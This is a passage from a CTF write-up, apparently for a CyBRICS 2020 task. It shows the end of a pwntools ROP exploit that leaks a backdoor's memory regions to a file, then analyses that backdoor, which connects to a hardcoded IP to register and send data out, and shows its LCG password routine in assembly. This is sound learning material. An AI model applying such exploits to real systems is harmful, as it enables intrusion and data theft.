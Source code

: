 ```python3
            p64(0),
            p64(0),
            p64(send_plt)
        ])

    # send payload in username and password
    io.sendlineafter(b': ', b''.join(chain))
    io.sendlineafter(b': ', b'AAAAAAAA')
    io.recvline()

    # read rwx sections and write them into the file
    with open('backdoor.bin', 'wb') as file:
        for start, size in regions:
            print(hex(start), size)
            file.write(io.recvn(size))


if __name__ == '__main__':
    with remote('0.0.0.0', 50009) as io:
        main(io)
```

And we've got a file `backdoor.bin` with rwx sections. Let's disassemble them.

## Analyzing the backdoor

The analysis of the backdoor is pretty straightforward, it does not contain any obfuscation. I won't provide a full assembler listing, if you want you can get the raw dump [here](/assets/cybrics-2020-incident/backdoor.bin). The backdoor performs two socket connections:

1. connect to `34.77.100.237:65278` and register
2. connect to `34.77.100.237:64250` and send data here

The backdoor have some non-trivial logic while registering itself on port `65278`. After some analysis we've understood that it uses `ID` and `password`. The `ID` it gets from the server, but the `password` is generated by some cryptographic algorithm. But it's not too hard, since it was an [LCG](https://en.wikipedia.org/wiki/Linear_congruential_generator). Here is two functions related to LCG:

```
initialize      proc near
                mov     rax, 100000000h
                mov     [rax], rdi
                retn
initialize      endp

lcg_step        proc near
                mov     rdi, 100000000h
                imul    eax, [rdi], 1103515245
                add     eax, 12345
                and     eax, 7FFFFFFFh
                mov     rdi, 100000000h
                mov     [rdi], rax
                retn
lcg_step        endp
```
